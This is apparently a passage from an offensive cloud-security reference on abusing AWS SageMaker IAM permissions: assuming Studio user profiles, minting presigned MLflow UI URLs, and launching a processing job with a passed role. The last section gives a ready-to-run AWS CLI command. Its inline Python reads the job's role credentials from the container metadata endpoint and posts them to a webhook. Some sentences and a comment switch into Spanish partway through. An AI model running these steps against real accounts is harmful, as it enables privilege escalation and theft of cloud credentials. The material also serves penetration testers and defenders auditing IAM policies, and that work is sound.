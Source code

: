 **Potential Impact**: Lateral movement and privilege escalation by assuming any Studio `UserProfile` whose ARN is permitted, inheriting its `ExecutionRole` and filesystem/apps.

### `sagemaker:CreatePresignedMlflowTrackingServerUrl`, `sagemaker-mlflow:AccessUI`, `sagemaker-mlflow:SearchExperiments`

An identity with permission to call `sagemaker:CreatePresignedMlflowTrackingServerUrl` (and `sagemaker-mlflow:AccessUI`, `sagemaker-mlflow:SearchExperiments` for later access) for a target SageMaker MLflow Tracking Server can mint a single‑use presigned URL that authenticates directly to the managed MLflow UI for that server. This grants the same access a legitimate user would have to the server (view/create experiments and runs, and download/upload artifacts in the server’s S3 artifact store).

**Requirements:**
- A SageMaker MLflow Tracking Server in the account/region and its name.
- The attacker principal needs `sagemaker:CreatePresignedMlflowTrackingServerUrl` on the target MLflow Tracking Server resource (or `*`).

**Abuse Steps**:

1) Enumerate MLflow Tracking Servers you can target and pick one name
```bash
aws sagemaker list-mlflow-tracking-servers \
  --query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```

2) Generate a presigned MLflow UI URL (valid for a short time)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
  --tracking-server-name "$TS_NAME" \
  --query AuthorizedUrl --output text
```

3) Open the returned URL in a browser to access the MLflow UI as an authenticated user for that Tracking Server.

**Potential Impact:** Direct access to the managed MLflow UI for the targeted Tracking Server, enabling viewing and modification of experiments/runs and retrieval or upload of artifacts stored in the server’s configured S3 artifact store, within the permissions enforced by the server configuration.

### `sagemaker:CreateProcessingJob`, `iam:PassRole`

An attacker with those permissions can make **SageMaker execute a processing job** with a SageMaker role attached to it. By reusing one of the AWS Deep Learning Containers that already incluye Python (y ejecutando el job en la misma región que el URI), puedes lanzar código inline sin construir imágenes propias:

```bash
REGION=<region>
ROLE_ARN=<sagemaker-arn-role>
IMAGE=683313688378.dkr.ecr.$REGION.amazonaws.com/sagemaker-scikit-learn:1.2-1-cpu-py3
ENV='{"W":"https://example.com/webhook"}'

aws sagemaker create-processing-job \
  --processing-job-name privescjob \
  --processing-resources '{"ClusterConfig":{"InstanceCount":1,"InstanceType":"ml.t3.medium","VolumeSizeInGB":50}}' \
  --app-specification "{\"ImageUri\":\"$IMAGE\",\"ContainerEntrypoint\":[\"python\",\"-c\"],\"ContainerArguments\":[\"import os,urllib.request as u;m=os.environ.get('AWS_CONTAINER_CREDENTIALS_RELATIVE_URI');m and u.urlopen(os.environ['W'],data=u.urlopen('http://169.254.170.2'+m).read())\"]}" \
  --environment "$ENV" \
  --role-arn $ROLE_ARN

# Las credenciales llegan al webhook indicado. Asegúrate de que el rol tenga permisos ECR (AmazonEC2ContainerRegistryReadOnly) para descargar la imagen.
```

